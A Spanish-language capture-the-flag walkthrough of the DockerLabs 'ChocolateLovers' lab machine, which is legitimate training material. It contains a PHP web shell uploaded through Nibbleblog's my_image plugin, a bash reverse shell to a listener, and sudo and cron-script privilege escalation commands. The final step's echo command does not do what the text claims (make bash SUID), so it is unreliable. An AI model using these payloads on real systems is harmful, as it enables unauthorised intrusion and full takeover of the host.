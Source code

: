 # CHOCOLATE LOVERS - DOCKERLABS

## INFORMACIÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [DockerLabs](https://dockerlabs.es)

Para descargarla vas a [DockerLabs](https://dockerlabs.es) y buscas la máquina ChocolateLovers. Abres el enlace de mega, descargas el zip, lo descomprimes y ejecutas `bash ./auto_deploy.sh ./chocolatelovers.tar`. De esta forma se ejecutará el contendor de docker de la máquina.

### descripción

- Dificultad: fácil
- Sistema Operativo: Linux
- Autor: El Pingüino de Mario

## RECONOCIMIENTO DE RED

### conectividad y SO

Antes de empezar hay que confirmar que tenemos conectividad con la máquina, así que lanzamos `ping -c 1 172.17.0.2`.
> `-c 1`: solo enviar 1 paquete ICMP

![image](https://github.com/user-attachments/assets/266c2daa-b055-4f4f-92dd-e41463540782)

Vemos que tenemos conectividad y como tiene TTL 64 muy posiblemente la máquina use Linux.

### puertos y servicios

Hacemos un escaneo de todo el rango de puertos con nmap: `nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG tcp_ports`.
> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`

#### puertos abiertos

**80 - TCP - HTTP**

Hacemos un escaneo de servicios y versiones con nmap sobre el puerto 80: `nmap -p80 -sCV 172.17.0.2 -oN tcp_ports_targeted`.
> `-p80` hacer el escaneo sobre el puerto 80.

> `-sCV` escanear el servicio y la versión (`sV`) y lanzar los scripts de reconocimiento por defecto (`sC`)

> `-oN tcp_ports_targeted` exportar el output en formato nmap al archivo `tcp_ports_targeted`

## RECONOCIMIENTO WEB

Primero hacemos `whatweb http://172.17.0.2` desde consola:

![image](https://github.com/user-attachments/assets/9b943f53-93ab-49ac-994f-3eeef8aeccec)

No hay nada interesante a parte de la versión de Apache, que ya la sabíamos del escaneo de versiones de nmap.

Si vemos la web desde el navegador, sale esto:

![image](https://github.com/user-attachments/assets/bee97e49-7733-4c18-8150-4281e5718106)

Es la web predeterminada de Apache2 de Ubuntu. Si inspeccionamos el código, vemos varios comentarios en los que pone `<!-- /nibbleblog -->`, por lo que podemos probar esa ruta:

![image](https://github.com/user-attachments/assets/f17420e8-aeb7-4042-b3a0-4e95959c1f7c)

Al parecer se usa el CMS Nibbleblog. Vemos en el dashboard un enlace a `admin.php`, si nos metemos hay un panel de login. Si probamos de credenciales test:test, sale un error de php. Si ponemos admin:test, el error desaparece, lo que puede significar que el usuario admin existe. Podemos probar a meter admin:admin por si acaso funcionase, y vemos que nos deja loguearnos:

![image](https://github.com/user-attachments/assets/f08b666d-69f3-4064-a223-9cce9d410700)

## EXPLOTACIÓN WEB

Podríamos buscar en Google vulnerabilidades que tenga Nibbleblog. Si buscamos encontramos este exploit en python de github: https://github.com/TheRealHetfield/exploits/blob/master/nibbleBlog_fileUpload.py. Como es un exploit pequeño, podemos simplemente leer el código y entenderlo en vez de descargarlo y ejecutarlo. Parece ser que hay una ruta dentro del CMS que es `/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image`, en la que podemos subir archivos. Si cargamos la ruta sale esto:

![image](https://github.com/user-attachments/assets/a368b828-63f9-4893-8a4d-1db05f102aef)

Podemos probar a darle a Browse y subir una web-shell en php, que tenga este código:

```
<?php
	system($_GET['cmd']);
?>
```

Y vemos que en el exploit pone que la imagen que se sube se almacena en `/nibbleblog/content/private/plugins/my_image/image.php`. Si lo cargamos y probamos a poner `?cmd=id`, vemos que lo ejecuta:

![image](https://github.com/user-attachments/assets/76d6361c-9b8a-4ca9-928c-e5da92ac5e0d)

Así que ya tenemos un RCE. Nos ponemso en escucha por el puerto 443: `nc -nlvp 443`, y en la web-shell ejecutamos el comando `/bin/bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"` para ganar la consola:

![image](https://github.com/user-attachments/assets/c0406c2a-be89-4265-acbd-2d0e023ec527)

Ahora hacemos el tratamiento de la TTY y empezamos al escalada de privilegios.

## ESCALADA DE PRIVILEGIOS (CHOCOLATE)

Si vemos el archivo `/etc/passwd`, vemos que hay un usuario llamado chocolate. Además si hacemos `sudo -l` para ver si tenemos privilegios especiales de sudo, vemos que podemos ejecutar sin contraseña `/usr/bin/php` como el usuario chocolate. Así que para ganar una bash como este usuario, ejecutamos `sudo -u chocolate /usr/bin/php -r 'system("/bin/bash");'`, y ganamos una bash como el usuario chocolate:

![image](https://github.com/user-attachments/assets/8501275a-ab0e-4b93-8f8f-4117482f1305)

## ESCALADA DE PRIVILEGIOS (ROOT)

Siendo el usuario chocolate, no podemos hacer `sudo -l` porque nos pide contraseña y no la sabemos. Tampoco encontramos archivos SUID interesantes. Pero podemos probar a buscar archivos que nos pertenezcan: `find / -user chocolate 2>/dev/null | grep -v "proc"`, hacemos `grep -v "proc"` para quitar los procesos que nos pertenecen. Y vemos esto:

![image](https://github.com/user-attachments/assets/96a52483-bc7a-4dce-9de2-1e0505a65cca)

Hay un archivo llamado `/opt/script.php`. Como somos propietarios de este archivo, podemos editarlo, pero por ahora no sirve de nada. Podríamos ver si hay otro usuario que lo ejecute, usando pspy. Podemos descargarlo en https://github.com/DominicBreuker/pspy. Lo ejecutamos:

![image](https://github.com/user-attachments/assets/5e809575-ade0-4919-bb81-0288cd173120)

Entre otros, vemos que el usuario de UID 0 (root) está ejecutando el archivo `/opt/script.php`, así que podemos editarlo para que cambie la bash a SUID:

`echo -n '<?php\n\tsystem("/bin/bash");\n?>' > /opt/script.php`

Esepramos a que root lo ejecute, y cuando veamos que la bash es SUID ejecutamos `bash -p` y ganamos una bash como root:

![image](https://github.com/user-attachments/assets/84f35b74-0cf2-4a1f-aefc-851d468df545)

Y ya somos root en la máquina ChocolateLovers.